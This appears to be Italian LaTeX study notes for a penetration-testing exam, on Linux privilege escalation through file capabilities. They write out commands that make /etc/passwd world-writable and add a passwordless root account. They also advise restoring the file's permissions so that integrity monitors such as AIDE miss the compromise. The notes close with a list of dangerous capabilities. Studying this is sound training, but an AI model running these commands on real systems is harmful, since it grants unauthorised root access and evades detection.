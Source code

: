 \documentclass[12pt,a4paper]{report}
\begin{document}
	\begin{itemize}
		\item \textbf{Lo Scenario:} Troviamo che l'eseguibile \texttt{/usr/bin/chmod} ha la capability \texttt{cap\_fowner=eip}.
		\item \textbf{L'Exploit:} Possiamo usare \texttt{chmod} per alterare i diritti d'accesso di \texttt{/etc/passwd}, rendendolo liberamente scrivibile da qualsiasi utente del sistema:
		\begin{lstlisting}[language=bash]
			chmod 666 /etc/passwd
		\end{lstlisting}
		Ora che il file ha permessi di scrittura globali, inseriamo l'utente root fittizio:
		\begin{lstlisting}[language=bash]
			echo "toor::0:0:root:/root:/bin/bash" >> /etc/passwd
		\end{lstlisting}
		\item \textbf{Regola d'oro per il Report d'Esame:} Una volta completata l'escalation e ottenuta la shell root, è fondamentale ripristinare immediatamente i permessi originari del file di sistema:
		\begin{lstlisting}[language=bash]
			chmod 644 /etc/passwd
		\end{lstlisting}
		Questo evita malfunzionamenti di sistema e impedisce che i sistemi HIDS di controllo integrità (come AIDE o Samhain) facciano scattare allarmi di compromissione nel log.
	\end{itemize}
	
	\subsection{Elenco delle Capabilities più Pericolose}
	Le capabilities più critiche da monitorare durante un'attività di privilege escalation sono:
	\begin{itemize}
		\item \texttt{CAP\_DAC\_OVERRIDE}: Permette al binario di ignorare completamente qualsiasi controllo sui permessi di lettura, scrittura ed esecuzione di file e directory.
		\item \texttt{CAP\_FOWNER}: Permette di modificare i permessi (tramite \texttt{chmod}) di qualsiasi file sul sistema, indipendentemente da chi sia il reale proprietario.
		\item \texttt{CAP\_SETUID}: Permette al processo di assumere l'identità (UID) di qualsiasi altro utente del sistema, incluso root.
		\item \texttt{CAP\_SYS\_ADMIN}: Definita la capability "tuttofare", concede una vasta gamma di poteri amministrativi (come il montaggio di filesystem o la manipolazione di configurazioni di basso livello).
	\end{itemize}
	
\end{document}
